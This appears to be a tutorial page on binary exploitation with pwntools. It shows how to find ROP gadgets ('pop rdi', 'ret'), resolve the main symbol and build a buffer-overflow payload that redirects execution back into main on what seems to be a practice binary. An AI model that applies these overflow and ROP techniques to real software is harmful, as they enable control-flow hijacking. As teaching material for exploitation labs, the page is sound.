 ### Using pwntools to help us find ROP gadgets

Remember how we made an ELF object in pwntools within our script?

We can do the same and create a ROP object!

#### Example:

```python
# ROP Object
rop = ROP(exe)                                       # You can use this to "pull" apart different pieces of your binary
pop_rdi = rop.find_gadget(['pop rdi'])[0]            # Find pop_rdi gadget
ret = rop.find_gadget(['ret'])[0]                    # Find ret gadget
success(f'{hex(pop_rdi)=}')                          # Print out pop_rdi gadget in hex
success(f'{hex(ret)=}')                              # Print out ret gadget in hex
```

<figure><img src="../.gitbook/assets/image (166).png" alt=""><figcaption><p>Seeing the same data that we saw in <code>ropper</code>, but automating it with pwntools</p></figcaption></figure>

#### We can also find symbols and functions that we can use (that are executed) in the binary with pwntools:

```python
main_function = exe.symbols.main
```

#### So, what will this do?

If we add `main_function` to our payload rather than our B's, we will see `main()` being executed twice!

#### NOTE:

I added this inside of the **ROP object**.

```python
def main():
    
    offset = 32
    length = 90
    r = conn()
    prompt = r.recvuntil(b'\n> ')                   
    print(prompt.decode('utf-8'))                   # Print out prompt that's given to us -- need to use utf-8 as it is sent as bytes
    # r.send(b'A'*100)
    payload = b''.join([                            # Use join() to join all elements in a list into one string
        b'A'*offset,
        #b'\x42\x42\x42\x42\x42\x42\x42\x42',       # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
        p64(ret),                                   # Stack-alignment issues requires a ret gadget here
        p64(main_function),                         # Jump back into main(), executing it twice -- needs to be packed into the binary's format (64-bit representation) this is because we received the numeric value from main_function
    ])
    
    payload += b'C'*(length -len(payload))          # A's at the top, B's for injection test, and C's for padding out the original length of data to send out

    r.send(payload)
```